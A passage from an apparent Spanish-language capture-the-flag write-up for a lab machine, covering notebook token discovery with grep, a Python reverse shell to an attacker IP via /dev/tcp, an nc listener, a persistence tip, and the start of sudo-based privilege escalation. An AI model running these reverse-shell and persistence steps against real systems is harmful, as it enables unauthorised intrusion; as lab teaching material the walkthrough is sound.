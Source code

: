 Con eso en mente, se puede realizar un comando `grep` a la cadena **?token=** dentro de los archivos para identificar cuáles pueden ser los posibles tokens.

```bash
grep -r "?token=" *
```
{: .nolineno}
Y se obtienen múltiples tokens, por lo que hay que probar con varios hasta obtener el válido.

Una vez con el acceso al cuadernillo, solo haría falta añadir un pequeño script en Python que ejecute una shell reversa hacia nuestra máquina de atacante.

```python
import os
os.system("bash -c '/bin/bash -i >& /dev/tcp/10.10.15.135/4443 0>&1'")
```

Pero antes de ejecutarlo, hay que ponerse a la escucha con `nc`:

```bash
nc -lvp 4443
```
{: .nolineno}

Con eso, se ha obtenido acceso como "jovian".

### Nota


>Recuerda aplicar la misma estrategia que antes para asegurar la permanencia dentro del sistema, copiando la clave pública de SSH u otras medidas de acceso futuro.
{: .prompt-tip}


## Escalada de Privilegios (Root)

Cuando se revisa la carpeta del usuario **jovian**, se puede observar que no hay nada, pero al utilizar el comando `sudo -l`, se nota que se puede ejecutar a nivel de ***sudoers***.


```bash
jovian@jupiter:~$ sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```
{: .nolineno}

> With sattrack you can track satellites in real time with antennas.
{: .prompt-info}


Pero al intentar ejecutarlo, se presenta el siguiente **error**:

